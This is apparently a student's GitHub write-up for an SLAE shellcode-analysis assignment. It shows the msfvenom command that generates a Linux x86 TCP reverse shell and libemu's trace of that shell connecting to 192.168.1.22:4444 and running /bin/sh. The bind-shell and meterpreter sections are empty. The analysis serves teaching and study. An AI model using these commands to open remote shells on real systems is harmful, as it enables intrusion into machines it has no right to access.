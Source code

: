 # SLAE course
This course can be found here:
[Link to course](https://www.pentesteracademy.com/course?id=3)

## Assignment#5: What to do ?
For this assignment we have to:
* Take up to three shellcodes examples created by Msfvenom
* Use a disassembler like GDB/Ndisasm/Libemu to reverse them
* Present the analysis 

## Introduction:
In order to do this assignment, I decided to divide the presentation of each shellcodes in 3 parts:
1) The first part which show and explain the assembly code generated by msfvenom.
2) The second part which show and explain the C pseudo code generated by Libemu.
3) The final part which contains a more high level review (a graph generated by libemu too) of the shellcode.

Now, let's get to work.
=

## 1) First shellcode: a tcp reverse shell
### 1.1) First part: the assembly 
The first shellcode, I decided to analyse, is a tcp reverse shell. This shellcode can be generated using msfvenom:
```console
#msfvenom -p linux/x86/shell_reverse_tcp -f elf -o reverse_shell 
``` 

We will use IDA to understand how the assembly of this shellcode works:
<p align="center">
![ida_reverse_shell](https://github.com/RomainLanglois/Shellcode/blob/master/SLAE/assignment5/IDA_reverse_shell.png)
</p>
Based on the above code, we can divide this code in differents shellcode:

1) ...
2) ...

### 1.2) The second part: the C pseudo code
The C pseudo Code:
```console
msfvenom -p linux/x86/shell_reverse_tcp -f raw | ./sctest -vvv -Ss 100000

...
...
...

int socket (
     int domain = 2;
     int type = 1;
     int protocol = 0;
) =  14;
int dup2 (
     int oldfd = 14;
     int newfd = 2;
) =  2;
int dup2 (
     int oldfd = 14;
     int newfd = 1;
) =  1;
int dup2 (
     int oldfd = 14;
     int newfd = 0;
) =  0;
int connect (
     int sockfd = 14;
     struct sockaddr_in * serv_addr = 0x00416fbe => 
         struct   = {
             short sin_family = 2;
             unsigned short sin_port = 23569 (port=4444);
             struct in_addr sin_addr = {
                 unsigned long s_addr = 369207488 (host=192.168.1.22);
             };
             char sin_zero = "       ";
         };
     int addrlen = 102;
) =  0;
int execve (
     const char * dateiname = 0x00416fa6 => 
           = "//bin/sh";
     const char * argv[] = [
           = 0x00416f9e => 
               = 0x00416fa6 => 
                   = "//bin/sh";
           = 0x00000000 => 
             none;
     ];
     const char * envp[] = 0x00000000 => 
         none;
) =  0;
```

### 1.3) The third part: a graphical view
The final part is to create a more user friendly view of this shellcode (we will use libemu to do that):
```console
#msfvenom -p linux/x86/shell_reverse_tcp -f raw | ./sctest -vvv -Ss 100000 -G reverse_shell.dot
#dot reverse_shell.dot -T png -o reverse_shell.png
```
Here is a graphical view of the reverse shell code:
<p align="center">
![graph_reverse_shell](https://github.com/RomainLanglois/Shellcode/blob/master/SLAE/assignment5/reverse_shell.png)
</p>

## 2) Second shellcode: a tcp bind shell
### 2.1) First part: the assembly 

### 2.2) The second part: the C pseudo code

### 2.3) The third part: a graphical view


## 3) Third shellcode: a meterpreter reverse tcp (stageless)
### 3.1) First part: the assembly 

### 3.2) The second part: the C pseudo code

### 3.3) 'The third part: a graphical view